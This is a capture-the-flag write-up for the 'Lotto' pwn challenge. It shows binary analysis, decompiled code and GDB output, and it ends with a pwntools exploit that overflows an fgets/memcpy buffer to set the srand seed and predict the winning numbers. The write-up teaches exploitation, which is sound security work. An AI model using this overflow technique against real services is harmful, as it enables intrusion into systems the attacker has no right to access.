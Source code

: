 ```yaml
---
title: Break_The_Syntax_CTF
published: 2025-08-21
description: A walkthrough for Lotto challenge from break_the_syntax_ctf.
tags: [pwn, writeups]
category: Pwn
draft: false
---
```



we are given a bin file , which is 
```
󰣇 bts_ctf/pwn/lotto ❯ file lotto.bin                                                                                                             
lotto.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b33dec53f8f1c8957618364105b1ede0b99ccd8f, for GNU/Linux 4.4.0, not stripped
```
```
󰣇 bts_ctf/pwn/lotto ❯ checksec --file=lotto.bin                                                                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   40 Symbols	 No	0		3		lotto.bin
```

when we run the binary , it asks for 6 number as input , if all the 6 numbers are correct we get the flag, but each run there are random number generated with random seed, so need to somehow solve this.

The decompiled code , 
```
  fgets((char *)local_198,0x17b,stdin);
  __n = strlen((char *)local_198);
  memcpy(local_314,local_198,__n);
```
there is a fgets function, which takes long input than what we need , so this looks sus , when providing a long input , and looking at the GDB ,
```
*RIP  0x5555555553f1 (main+520) ◂— call srand@plt
───────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────
 ► 0x5555555553f1 <main+520>    call   srand@plt                   <srand@plt>
        seed: 0x61616364
 
   0x5555555553f6 <main+525>    lea    rax, [rbp - 0x330]
```
we can see that we can control the seed for random number.
it is at the offset of 307, so after this if we set it to know value we can find the number it generates , in my case i gonna set the value to 0xdeadbeef.

```
import ctypes


libc = ctypes.CDLL("libc.so.6")  
libc.srand(0xdeadbeef)  

for _ in range(6):  
    print(libc.rand() % 49 + 1)    

```
this is the python script to find the random numbers,


```
from pwn import *

p = remote('localhost',9000)

nums = b'11 9 42 12 16 3'
payload = nums + cyclic(307-len(nums)) + p64(0xdeadbeef) + cyclic(100)

p.sendline(payload)
p.interactive()
```
